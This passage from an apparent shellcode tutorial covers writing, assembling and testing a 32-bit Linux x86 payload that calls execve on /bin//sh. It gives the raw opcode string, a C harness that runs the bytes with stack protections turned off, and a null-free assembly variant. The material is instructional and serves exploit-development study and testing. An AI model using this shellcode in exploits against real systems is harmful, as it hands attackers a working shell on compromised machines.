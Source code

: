 ```
    int 0x80            ; Trigger syscall interrupt
```

**Compilation and Extraction**

bash

```
# Assemble the code
nasm -f elf32 shellcode.asm -o shellcode.o

# Link for testing
ld -m elf_i386 shellcode.o -o shellcode

# Extract opcodes
objdump -d shellcode.o
```

**Resulting Shellcode**

text

```
\x31\xc0\xb0\x0b\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

**Testing Shellcode**

c

```
#include <stdio.h>

char code[] = \
"\x31\xc0\xb0\x0b\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

int main() {
    printf("Shellcode length: %d bytes\n", (int)sizeof(code)-1);
    int (*ret)() = (int(*)())code;
    ret();
    return 0;
}
```

**Compile with:** `gcc -m32 -z execstack -fno-stack-protector test_shellcode.c -o test_shellcode`

#### Null-Free Optimized Version

nasm

```
section .text
    global _start

_start:
    ; Clear registers without null bytes
    xor ecx, ecx        ; ECX = 0
    mul ecx             ; EAX * ECX -> zeros EAX and EDX

    mov al, 0xb         ; Syscall number

    ; Push string without null bytes
    push ecx            ; Push 0 using cleared register
    push 0x68732f2f     ; "hs//"
    push 0x6e69622f     ; "nib/"

    mov ebx, esp        ; EBX points to string
    int 0x80            ; Syscall
```